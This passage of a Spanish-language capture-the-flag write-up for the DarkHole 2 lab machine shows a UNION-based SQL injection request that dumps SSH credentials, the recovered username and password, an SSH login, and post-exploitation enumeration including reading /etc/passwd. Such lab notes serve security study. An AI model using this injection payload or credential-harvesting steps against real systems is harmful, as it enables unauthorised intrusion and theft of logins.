 **Paso 7 - Extracción de credenciales SSH:**

Solicitud modificada:
```
GET /dashboard.php?id=2'+union+select+1,2,group_concat(id,0x3a,user,0x3a,pass),4,5,6+from+darkhole_2.ssh--+- HTTP/1.1
```
![[darkhole_2.17.png]]

> [!success] Credenciales SSH Obtenidas
> Usuario: jehad  
> Contraseña: fool

### Obtención de Shell SSH

Comando:
```
ssh jehad@172.16.23.128
```
![[darkhole_2.18.png]]
	Acceso exitoso a la máquina como usuario jehad.

---

## Post-Explotación y Privesc

### Enumeración Interna

**Inventario del sistema:**

Comando para ver kernel:

uname -a

Resultado: Linux darkhole 5.4.0-81-generic 91-Ubuntu SMP Thu Jul 15 19:09:17 UTC 2021 x86_64

Comando para ver versión del SO:

cat /etc/os-release

Resultado: Ubuntu 20.04.3 LTS (Focal Fossa)

Comando para verificar privilegios sudo:

sudo -l

Resultado: El usuario jehad no tiene permisos sudo.

Comando para ver grupos:

id

Resultado: jehad no pertenece a grupos privilegiados.

Comando para listar usuarios:

cat /etc/passwd
